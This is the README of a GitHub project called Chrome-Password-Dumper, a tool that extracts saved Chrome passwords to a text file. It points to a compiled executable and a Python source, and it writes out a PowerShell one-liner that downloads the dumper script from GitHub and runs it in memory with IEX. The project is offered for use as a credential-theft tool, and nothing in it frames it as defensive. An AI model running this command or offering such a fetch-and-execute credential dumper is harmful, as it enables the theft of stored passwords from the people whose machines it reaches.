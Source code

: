 # Chrome-Password-Dumper

For Windows version simply run **chrome.exe** to dump the passwords to a text file.

For **powershell** version: IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/roflsandwich/Chrome-Password-Dumper/master/chrome.ps1')

**Chrome must be closed before running the PoC**

* chrome.py uncompiled version

* compiled with py2exe
